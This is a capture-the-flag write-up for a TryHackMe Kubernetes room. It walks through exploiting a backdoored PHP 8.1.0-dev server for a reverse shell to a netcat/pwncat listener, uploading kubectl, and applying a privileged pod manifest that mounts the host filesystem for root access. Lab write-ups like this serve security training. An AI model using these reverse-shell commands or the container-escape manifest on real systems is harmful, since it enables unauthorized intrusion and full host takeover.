

# Frank and Herby try again.....

## Writer

First of all, thanks to the creator of this room for giving us the chanse to practice our skills and have fun.

**Note:** The flags are redacted, so you can get a hand-on experience completing this room yourself. BTW, wherever you see `$IP`, it is refering to the target machine's IP.

Happy H4CK1N9! : )

## Room Description

Room link: https://tryhackme.com/room/frankandherbytryagain

Created by: [kninja](https://tryhackme.com/p/kninja)

Frank and Herby still don't know how to use kubernetes correctly.

So Frank and Herb have become Kubernetes experts now and would never misconfigure their own deployment (again)!

## Initial Scan

Let's get to work. As always, starting with a quick full port `Nmap` scan:

~~~sh
└─$ sudo nmap $IP -sS -sV -p- --min-rate 5000 -n   
[...]
PORT      STATE SERVICE     VERSION
22/tcp    open  ssh         OpenSSH 8.2p1 Ubuntu 4ubuntu0.4 (Ubuntu Linux; protocol 2.0)
10250/tcp open  ssl/http    Golang net/http server (Go-IPFS json-rpc or InfluxDB API)
10255/tcp open  http        Golang net/http server (Go-IPFS json-rpc or InfluxDB API)
10257/tcp open  ssl/unknown
10259/tcp open  ssl/unknown
16443/tcp open  ssl/unknown
25000/tcp open  ssl/http    Gunicorn 19.7.1
30679/tcp open  http        PHP cli server 5.5 or later (PHP 8.1.0-dev)
~~~

The scan revealed eight open ports. Let's run a deeper scan on the discovered ports using Nmap's aggressive mode:

~~~
└─$ sudo nmap -A $IP -p22,10250,10255,10257,10259,16443,25000,30679
[...]
PORT      STATE SERVICE     VERSION
22/tcp    open  ssh         OpenSSH 8.2p1 Ubuntu 4ubuntu0.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 99:bf:3f:0e:b2:95:0e:76:e5:0f:28:8a:e9:25:bd:b1 (RSA)
|   256 df:48:b7:b2:a2:bc:5a:7e:f9:bb:b8:54:2a:98:03:09 (ECDSA)
|_  256 ad:09:e8:fd:58:3b:a1:3e:37:7e:62:d2:44:20:7a:f2 (ED25519)
10250/tcp open  ssl/http    Golang net/http server (Go-IPFS json-rpc or InfluxDB API)
|_http-title: Site doesn't have a title (text/plain; charset=utf-8).
| tls-alpn: 
|   h2
|_  http/1.1
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: commonName=microk8s@1647797913
| Subject Alternative Name: DNS:microk8s
| Not valid before: 2022-03-20T16:38:32
|_Not valid after:  2023-03-20T16:38:32
10255/tcp open  http        Golang net/http server (Go-IPFS json-rpc or InfluxDB API)
|_http-title: Site doesn't have a title (text/plain; charset=utf-8).
10257/tcp open  ssl/unknown
| fingerprint-strings: 
|   GenericLines, Help, Kerberos, RTSPRequest, SSLSessionReq, TLSSessionReq, TerminalServerCookie: 
|     HTTP/1.1 400 Bad Request
|     Content-Type: text/plain; charset=utf-8
|     Connection: close
|     Request
|   GetRequest: 
|     HTTP/1.0 403 Forbidden
|     Cache-Control: no-cache, private
|     Content-Type: application/json
|     X-Content-Type-Options: nosniff
|     Date: Sun, 12 Jun 2022 11:21:22 GMT
|     Content-Length: 185
|     {"kind":"Status","apiVersion":"v1","metadata":{},"status":"Failure","message":"forbidden: User "system:anonymous" cannot get path "/"","reason":"Forbidden","details":{},"code":403}
|   HTTPOptions: 
|     HTTP/1.0 403 Forbidden
|     Cache-Control: no-cache, private
|     Content-Type: application/json
|     X-Content-Type-Options: nosniff
|     Date: Sun, 12 Jun 2022 11:21:23 GMT
|     Content-Length: 189
|_    {"kind":"Status","apiVersion":"v1","metadata":{},"status":"Failure","message":"forbidden: User "system:anonymous" cannot options path "/"","reason":"Forbidden","details":{},"code":403}
| ssl-cert: Subject: commonName=localhost@1655032224
| Subject Alternative Name: DNS:localhost, DNS:localhost, IP Address:127.0.0.1
| Not valid before: 2022-06-12T10:10:23
|_Not valid after:  2023-06-12T10:10:23
| tls-alpn: 
|   h2
|_  http/1.1
|_ssl-date: TLS randomness does not represent time
10259/tcp open  ssl/unknown
| fingerprint-strings: 
|   GenericLines, Help, Kerberos, RTSPRequest, SSLSessionReq, TLSSessionReq, TerminalServerCookie: 
|     HTTP/1.1 400 Bad Request
|     Content-Type: text/plain; charset=utf-8
|     Connection: close
|     Request
|   GetRequest: 
|     HTTP/1.0 403 Forbidden
|     Cache-Control: no-cache, private
|     Content-Type: application/json
|     X-Content-Type-Options: nosniff
|     Date: Sun, 12 Jun 2022 11:21:22 GMT
|     Content-Length: 185
|     {"kind":"Status","apiVersion":"v1","metadata":{},"status":"Failure","message":"forbidden: User "system:anonymous" cannot get path "/"","reason":"Forbidden","details":{},"code":403}
|   HTTPOptions: 
|     HTTP/1.0 403 Forbidden
|     Cache-Control: no-cache, private
|     Content-Type: application/json
|     X-Content-Type-Options: nosniff
|     Date: Sun, 12 Jun 2022 11:21:23 GMT
|     Content-Length: 189
|_    {"kind":"Status","apiVersion":"v1","metadata":{},"status":"Failure","message":"forbidden: User "system:anonymous" cannot options path "/"","reason":"Forbidden","details":{},"code":403}
| ssl-cert: Subject: commonName=localhost@1655032224
| Subject Alternative Name: DNS:localhost, DNS:localhost, IP Address:127.0.0.1
| Not valid before: 2022-06-12T10:10:23
|_Not valid after:  2023-06-12T10:10:23
| tls-alpn: 
|   h2
|_  http/1.1
|_ssl-date: TLS randomness does not represent time
16443/tcp open  ssl/unknown
| fingerprint-strings: 
|   FourOhFourRequest: 
|     HTTP/1.0 401 Unauthorized
|     Audit-Id: d509caff-f182-4767-90ad-21748034443d
|     Cache-Control: no-cache, private
|     Content-Type: application/json
|     Date: Sun, 12 Jun 2022 11:21:53 GMT
|     Content-Length: 129
|     {"kind":"Status","apiVersion":"v1","metadata":{},"status":"Failure","message":"Unauthorized","reason":"Unauthorized","code":401}
|   GenericLines, Help, Kerberos, RTSPRequest, SSLSessionReq, TLSSessionReq, TerminalServerCookie: 
|     HTTP/1.1 400 Bad Request
|     Content-Type: text/plain; charset=utf-8
|     Connection: close
|     Request
|   GetRequest: 
|     HTTP/1.0 401 Unauthorized
|     Audit-Id: d0b920a2-836b-4081-8182-f44e7699354a
|     Cache-Control: no-cache, private
|     Content-Type: application/json
|     Date: Sun, 12 Jun 2022 11:21:22 GMT
|     Content-Length: 129
|     {"kind":"Status","apiVersion":"v1","metadata":{},"status":"Failure","message":"Unauthorized","reason":"Unauthorized","code":401}
|   HTTPOptions: 
|     HTTP/1.0 401 Unauthorized
|     Audit-Id: 593aaadb-f810-421d-af8b-7ae40fc9bc30
|     Cache-Control: no-cache, private
|     Content-Type: application/json
|     Date: Sun, 12 Jun 2022 11:21:23 GMT
|     Content-Length: 129
|_    {"kind":"Status","apiVersion":"v1","metadata":{},"status":"Failure","message":"Unauthorized","reason":"Unauthorized","code":401}
|_ssl-date: TLS randomness does not represent time
| tls-alpn: 
|   h2
|_  http/1.1
| ssl-cert: Subject: commonName=127.0.0.1/organizationName=Canonical/stateOrProvinceName=Canonical/countryName=GB
| Subject Alternative Name: DNS:kubernetes, DNS:kubernetes.default, DNS:kubernetes.default.svc, DNS:kubernetes.default.svc.cluster, DNS:kubernetes.default.svc.cluster.local, IP Address:127.0.0.1, IP Address:10.152.183.1, IP Address:10.10.97.254
| Not valid before: 2022-06-12T11:09:35
|_Not valid after:  2023-06-12T11:09:35
25000/tcp open  ssl/http    Gunicorn 19.7.1
|_http-title: 404 Not Found
| ssl-cert: Subject: commonName=127.0.0.1/organizationName=Canonical/stateOrProvinceName=Canonical/countryName=GB
| Subject Alternative Name: DNS:kubernetes, DNS:kubernetes.default, DNS:kubernetes.default.svc, DNS:kubernetes.default.svc.cluster, DNS:kubernetes.default.svc.cluster.local, IP Address:127.0.0.1, IP Address:10.152.183.1, IP Address:10.10.97.254
| Not valid before: 2022-06-12T11:09:35
|_Not valid after:  2023-06-12T11:09:35
|_http-server-header: gunicorn/19.7.1
|_ssl-date: TLS randomness does not represent time
30679/tcp open  http        PHP cli server 5.5 or later (PHP 8.1.0-dev)
|_http-title: FRANK RULEZZ!
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
~~~

## HTTP (port 30679)

Let's start with the web page running on port 30679 just because of the title ("FRANK RULEZZ!").

The main page reveals some info about what the site was built with:

~~~
└─$ curl -s "http://$IP:30679/"  | html2text
****** FRANK's WORLD DOMINATION RESTART! ******

There is no way they will break in this time!
This site is built with STATE-OF-THE-ART PHP!! The greatest programming
language ever created!
Also powered by the most advanced and inheirantly secure app deployment
technology:
****** KUBERNETES!!!!!! ******
Using the power of KUBECTL!!!
Pronounced: KUBE + CONTROL! NOT KUBE + CUDDLE!
Because I CONTROL the KUBE! I don't CUDDLE it!
~~~

The site is built with PHP, so let's check out its version to see if it's outdated or not.

There are a few ways to find the version. Nmap scan result has done it already, but you can find it from `http://$IP:30679/info.php` or by checking the response headers:

~~~sh
└─$ curl -s "http://$IP:30679/" -i           
HTTP/1.1 200 OK
Host: 10.10.97.254:30679
Date: Sun, 12 Jun 2022 11:30:49 GMT
Connection: close
X-Powered-By: PHP/8.1.0-dev
Content-type: text/html; charset=UTF-8
[...]
~~~

Anyways, the PHP version is `PHP/8.1.0-dev`.

With a little google search, we can find out about an RCE (Remote Code Execution) in this version. The RCE comes from a backdoor, which was the result of a breach. You can read the full story [here](https://systemweakness.com/php-8-1-0-dev-backdoor-b262206d9b7f). It's kinda cool!

## Reverse Shell

The article that I linked above, has an exploit that instantly gives us a reverse shell. How amazing is that. You can get the exploit [here](https://github.com/flast101/php-8.1.0-dev-backdoor-rce/blob/main/revshell_php_8.1.0-dev.py).

Copy the exploit to your machine, and let's test if it works. First start a listener (`rlwrap nc -lvnp 4444`) and then add your thm IP and your target machine's IP to the following command and run it:

~~~sh
$ python3 revshell_php_8.1.0-dev.py http://<TARGET MACHINE IP>:30679/ <YOUR THM IP> 4444
~~~

After running the command above, you should receive a reverse shell on your lestener as `root`:

~~~
└─$ rlwrap nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.9.**.**] from (UNKNOWN) [10.10.97.254] 33900
bash: cannot set terminal process group (1): Inappropriate ioctl for device
bash: no job control in this shell
root@php-deploy-6d998f68b9-wlslz:/var/www/html# 
~~~

## Enumerating the target

Let's start enumerating the target now. First let me start by saying that we are in a container or an image and we are not root on the host machine.

By checking environment variables, we can confirm the presence of `kubernetes` using `env` command:

~~~
root@php-deploy-6d998f68b9-wlslz:/# env
KUBERNETES_SERVICE_PORT_HTTPS=443
PHP_DEPLOY_SERVICE_HOST=10.152.183.188
KUBERNETES_SERVICE_PORT=443
HOSTNAME=php-deploy-6d998f68b9-wlslz
PHP_INI_DIR=/usr/local/etc/php
PHP_DEPLOY_SERVICE_PORT=80
PWD=/
PHP_DEPLOY_PORT_80_TCP_PORT=80
HOME=/root
KUBERNETES_PORT_443_TCP=tcp://10.152.183.1:443
PHP_DEPLOY_PORT_80_TCP=tcp://10.152.183.188:80
PHPIZE_DEPS=autoconf         dpkg-dev         file         g++         gcc         libc-dev         make         pkg-config         re2c         bison
PHP_DEPLOY_PORT=tcp://10.152.183.188:80
SHLVL=2
KUBERNETES_PORT_443_TCP_PROTO=tcp
KUBERNETES_PORT_443_TCP_ADDR=10.152.183.1
PHP_DEPLOY_PORT_80_TCP_ADDR=10.152.183.188
PHP_DEPLOY_PORT_80_TCP_PROTO=tcp
KUBERNETES_SERVICE_HOST=10.152.183.1
KUBERNETES_PORT=tcp://10.152.183.1:443
KUBERNETES_PORT_443_TCP_PORT=443
PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
_=/usr/bin/env
OLDPWD=/root
~~~

There is a problem tho. `kubectl` is not installed, so we can't interact with `kubernetes` service. We can uplaod it tho, right? NO. `wget` and `curl` are not installed either.

~~~
root@php-deploy-6d998f68b9-wlslz:/# kubectl
bash: kubectl: command not found
root@php-deploy-6d998f68b9-wlslz:/# wget
bash: wget: command not found
root@php-deploy-6d998f68b9-wlslz:/# curl
bash: curl: command not found
~~~

It means we can't transfer anything to the target the old fasioned way. Here we have two options to work around this problem.

First one is using `msfconsole`'s `meterpreter` or by using `pwncat`, which is basicly netcat on steroids. They both allow us to do a lot of things and uploading files is one of them.

I will use `pwncat`. You can install it using pip with the following command:

~~~sh
$ pip install pwncat-cs
~~~

Let's switch to `pwncat` then. Close the reverse shell and start a new listener using `pwncat`:

~~~sh
└─$ pwncat-cs -lp 4444
~~~

Then run the exploit again:

~~~sh
$ python3 revshell_php_8.1.0-dev.py http://<MACHINE IP>:30679/ <YOUR THM IP> 4444
~~~

After running the exploit again, you should gain a reverse shell on your pwncat listener and by running `help` command, you can see what we can do with it:

Now we are able to upload anything we want. One thing you need to know about pwncat, is that you can use `Ctrl+D` to switch between local and remote connection.

## Transfering kubectl to target

Now we can upload `kubectl` to the target to interact with kubernetes service.

If you don't have `kubectl` binary on your machine, follow [this](https://kubernetes.io/docs/tasks/tools/install-kubectl-linux/#install-kubectl-binary-with-curl-on-linux) guide on how to download it.

After you downloaded the binary, we can go ahead and upload it to the target using pwncat. By running the following local command, we can upload the file. Add the location of kubectl on your machine to the command and run it:

~~~
(local) pwncat$ upload /Path/to/kubectl /tmp/kubectl
~~~

After the uploading process was completed, use `Ctrl+D` or run `back` to switch to remote connection. Then head to `/tmp` where we uploaded the kubectl binary and mark it as executable:

~~~
(local) pwncat$ back
(remote) root@php-deploy-6d998f68b9-wlslz:/var/www/html# cd /tmp
total 44640
-rw-r--r-- 1 root root 45711360 Jun 12 12:31 kubectl
(remote) root@php-deploy-6d998f68b9-wlslz:/tmp# chmod +x kubectl
(remote) root@php-deploy-6d998f68b9-wlslz:/tmp# ls -l
total 44640
-rwxr-xr-x 1 root root 45711360 Jun 12 12:31 kubectl
~~~

Now `kubectl` is ready to use.

## Enumerating the Kubernetes service

Let's start enumerating the service. First let's check our permissions:

~~~
(remote) root@php-deploy-6d998f68b9-wlslz:/tmp# ./kubectl auth can-i --list
Resources   Non-Resource URLs   Resource Names   Verbs
*.*         []                  []               [*]
            [*]                 []               [*]
~~~

we can do `*` verb on `*.*` resources, which means we are allowed to do anything, which makes our work pretty easy.

Here we can see the pod that we are in:

~~~
(remote) root@php-deploy-6d998f68b9-wlslz:/tmp# ./kubectl get pods
NAME                          READY   STATUS    RESTARTS       AGE
php-deploy-6d998f68b9-wlslz   1/1     Running   3 (114m ago)   82d
~~~

With a little search, I found [this blog](https://bishopfox.com/blog/kubernetes-pod-privilege-escalation) by "Seth Art" about "Kubernetes Pod Privilege Escalation", which is very useful and recommend you to take a look at it.

[This](https://bishopfox.com/blog/kubernetes-pod-privilege-escalation#Pod1) part of the blog is what we're working with here. I'm not gonna go through the details, but I encourage you do your research on it.

To make it short, we are gonna use a malicious config file in `yaml` format, that creates a new pod, and mounts the host machine's image on that pod. In result, we have root access to the host machine via a pod.

We just need one thing and that's the name of the host machine file image name. We can obtain that by running the following command:

~~~
(remote) root@php-deploy-6d998f68b9-wlslz:/tmp# ./kubectl get node -o yaml
[...]
    images:
    - names:
      - docker.io/vulhub/php@sha256:5cbeb206dcda6c296bdc1e11f855073aa59dd68db8cfadb846a632727875a99a
      - docker.io/vulhub/php:8.1-backdoor
      sizeBytes: 98799069
[...]
~~~

The host image name is `docker.io/vulhub/php:8.1-backdoor`.

Now we are ready to exploit the service. [Here](https://github.com/BishopFox/badPods/blob/main/manifests/everything-allowed/pod/everything-allowed-exec-pod.yaml) you can find the original config file that we are going to use. Here's the config file after a little modification:

~~~yaml
apiVersion: v1
kind: Pod
metadata:
  name: pwned
  labels:
    app: pwn
spec:
  hostNetwork: true
  hostPID: true
  hostIPC: true
  containers:
  - name: pwned
    image: docker.io/vulhub/php:8.1-backdoor
    securityContext:
      privileged: true
    volumeMounts:
    - mountPath: /host
      name: noderoot
    command: [ "/bin/sh", "-c", "--" ]
    args: [ "while true; do sleep 30; done;" ]
  volumes:
  - name: noderoot
    hostPath:
      path: /
~~~

The config file mounts the host machine image on `/host` directory in the pod.

Save the configs in a file with `.yaml` extention and transfer the file to the target the same way we did with kubectl. I named mine `pwn.yaml`.

Now let's apply our new config file by running the following command:

~~~
(remote) root@php-deploy-6d998f68b9-wlslz:/tmp# ./kubectl apply -f pwn.yaml 
pod/pwned created
~~~

Great! Let's make sure the pod is created and it's running:

~~~
(remote) root@php-deploy-6d998f68b9-wlslz:/tmp# ./kubectl get pods
NAME                          READY   STATUS    RESTARTS       AGE
php-deploy-6d998f68b9-wlslz   1/1     Running   3 (125m ago)   82d
pwned                         1/1     Running   0              31s
~~~

Nice! Let's execute `sh` on our newly created pod and get a shell on it:

~~~
(remote) root@php-deploy-6d998f68b9-wlslz:/tmp# ./kubectl exec -it pwned -- /bin/sh
# id
uid=0(root) gid=0(root) groups=0(root)
~~~

We have a shell on our pod. Let's head to `/host` where we mounted the host machine image on, and make sure that our plan worked:

~~~
# cd /host
# ls
bin   dev  home  lib32	libx32	    media  opt	 root  sbin  srv  tmp  var
boot  etc  lib	 lib64	lost+found  mnt    proc  run   snap  sys  usr
~~~

After looking through some files in `/host` we can confirm that we have the host machine files mounted on this directory.

## User Flag

Now that we have root access to host machine files, we can go ahead and read the flags. The user flag can be found in `/host/home/herby`:

~~~
# pwd
/host/home/herby
# ls  
app  deploy.yaml  php-deploy.yaml  snap  user.txt
# cat user.txt
THM{REDACTED}
~~~

## Root Flag

Let's head to `/host/root` and read the root flag:

~~~
# cd /host/root
# ls
root.txt  snap
# cat root.txt
THM{REDACTED}
~~~

## D0N3! ; )

Thanks again to the creator of this room for putting in the time.

Hope you had fun and learned something new! : )

Have a g00d 0ne! : )
